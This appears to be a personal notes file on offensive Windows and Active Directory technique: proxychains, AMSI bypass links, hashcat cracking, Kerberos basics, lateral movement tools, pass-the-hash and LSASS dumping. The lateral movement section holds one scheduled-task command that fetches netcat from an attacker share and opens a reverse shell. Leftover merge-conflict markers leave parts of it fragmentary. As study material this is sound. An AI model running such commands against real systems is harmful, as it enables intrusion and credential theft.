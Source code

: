 using socks5

```
nano /etc/proxychains.conf 

sock5 ip port user password

proxychains firefox

```

# AMSI bypass

https://www.hackingarticles.in/a-detailed-guide-on-amsi-bypass/

 Antimalware Scan Interface (AMSI) standard that allows a developer to integrate malware defense in his application. AMSI allows an application to interact with any anti-virus installed on the system and prevent dynamic, script-based malwares from executing

amsi byoass with a single command:
https://news.sophos.com/en-us/2021/06/02/amsi-bypasses-remain-tricks-of-the-malware-trade/


# kerberoasting 

cracking hashes offline using hashcat 

b4b9b02e6f09a9bd760f388b67351e2b

hashcat hashes.txt -m 1000 -a3 ?1?1?1
=======
# looking at ad enumeration

even without an ad user cann connect to a workgroup
https://book.hacktricks.xyz/windows-hardening/active-directory-methodology

## kerberoast attacks

Kerberos
https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/kerberos-authentication

<<<<<<< HEAD
Firstly, Kerberos is an authentication protocol, not authorization. In other words, it allows to identify each user, who provides a secret password, however, it does not validates to which resources or services can this user access.

Agents
Several agents work together to provide authentication in Kerberos. These are the following:
Client or user who wants to access to the service.
AP (Application Server) which offers the service required by the user.
KDC (Key Distribution Center), the main service of Kerberos, responsible of issuing the tickets, installed on the DC (Domain Controller). It is supported by the AS (Authentication Service), which issues the TGTs.

Encryption keys
There are several structures handled by Kerberos, as tickets. Many of those structures are encrypted or signed in order to prevent being tampered by third parties. These keys are the following:
KDC or krbtgt key which is derivate from krbtgt account NTLM hash.
User key which is derivate from user NTLM hash.
Service key which is derivate from the NTLM hash of service owner, which can be a user or computer account.
Session key which is negotiated between the user and KDC.
Service session key to be use between user and service.

Tickets
The main structures handled by Kerberos are the tickets. These tickets are delivered to the users in order to be used by them to perform several actions in the Kerberos realm. There are 2 types:
The TGS (Ticket Granting Service) is the ticket which user can use to authenticate against a service. It is encrypted with the service key.
The TGT (Ticket Granting Ticket) is the ticket presented to the KDC to request for TGSs. It is encrypted with the KDC key.


# lateral movement

https://hackmag.com/security/lateral-guide/

approach

sieze control over the domain controllers
reach to isolated critical network segments
search for critical information stored in a certain PC

impacket tools
MSRPC - smb via named pipes
psexec.exe - no av risk, legitimate
psexec.py - from impacket or services.py for manual entering of commands
winexe
smbexec.py - just for msrp.py
atexec.py/ at.exe this helps in remote schedule tasks
`at.exe \\target 13:37 "cmd /c copy \\attacker\a\nc.exe && nc -e \windows\system32\cmd.exe attacker 8888"`
reg.exe - writing to registry remotely
dcomexec.py - wmiexec
wmi
sc.exe
winrm - evilwinrm
winrs.exe and powershell
xfreerdp
GP

embedding malicious files into the shared folder of the system.

### Pass the hash

without cracking the password we can get:

![](2022-08-23-06-34-31.png)

kali linux has many pth - pass the hash tools


# dumping credentials with mimikatz

https://www.whiteoaksecurity.com/blog/attacks-defenses-dumping-lsass-no-mimikatz/

windows defender credential Guard prevents access to LSASS



![](2022-08-23-06-25-06.png)



# proxychain
open `/etc/proxychains.conf`
add `socks5 ip port username password` to the end
run with `proxychains ping whatever`

or using foxy proxy to set up a proxy

# C# execution of commands

```C#
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;

namespace console_csharp
{
    class Program
    {
        static void Main(string[] args)
        {
            System.Diagnostics.Process process = new System.Diagnostics.Process();
            System.Diagnostics.ProcessStartInfo startInfo = new System.Diagnostics.ProcessStartInfo();
            startInfo.WindowStyle = System.Diagnostics.ProcessWindowStyle.Hidden;
            startInfo.FileName = "cmd.exe";
            startInfo.Arguments = "";
            process.StartInfo = startInfo;
            process.Start();
        }
    }
}
```

# elevating current cmd to administrator

This is wha comes by default in command line
```
PS C:\Users\HP> C:\Windows\System32\runas.exe /noprofile /user:Administrator cmd
Enter the password for Administrator:
Attempting to start cmd as user "WINWORK\Administrator" ...
RUNAS ERROR: Unable to run - cmd
1327: Account restrictions are preventing this user from signing in. For example: blank passwords aren't allowed, sign-in times are limited, or a policy restriction has been enforced.
```
The local group policy can be modified by LGPO suite - to be tried.




